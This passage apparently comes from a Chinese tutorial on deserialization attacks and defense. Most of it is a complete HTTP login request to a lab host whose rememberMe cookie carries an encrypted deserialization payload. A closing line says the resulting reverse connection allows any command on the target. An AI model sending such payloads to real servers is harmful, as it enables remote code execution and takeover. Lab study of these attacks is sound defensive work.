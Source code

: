 ![image-20240901232319726](反序列化渗透与防御/image-20240901232319726.png)	

具体的payload如下

```
payload:

POST /doLogin HTTP/1.1
Host: 192.168.15.50:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 47
Origin: http://192.168.15.50:8080
Connection: close
Referer: http://192.168.15.50:8080/doLogin
Cookie: JSESSIONID=BE2042921ED0A1E58436F6FBD5654581;rememberMe=OIM+rTYaSxmTP79U/M0wXw15xY34Hh/ob6Mv30luLvMAJvAvLL9IOA8d5+KGbefFvp8ApuCOfSkXL9Z8kZgNG9tIs2ZPnxMR/dHWXz2pwMb6Xte6hyggCbyqrx46blSvZl35NwwODPUHiABAwRdFtrB9bpx8YMdKZZjLxR7haBWgDdLCfi0vvmvPPAYp/y2Sn+AWe9zGD3DQvCs6VROGWmG8Y4qMbM1Qx8JgsjEA7RE7PTXd3W2pBHBfK0Ipqub1eUTRcPfm4PYQfk6DA2PiY4M+KTGUYUoWaUGV3s3TKILCkg2jV2/dBZMEpkpxUPED7AHWdy0esRe7gI2rWEQWCYDuW9f+D5YbM392wD+TeppmyyU6YOd+GaxWIpA9mYDTYC6buM+jVHVHZAT/RNPhAQ==

username=a&password=b&rememberme=remember-me

```

通过反弹连接，可以对靶机执行任何操作。

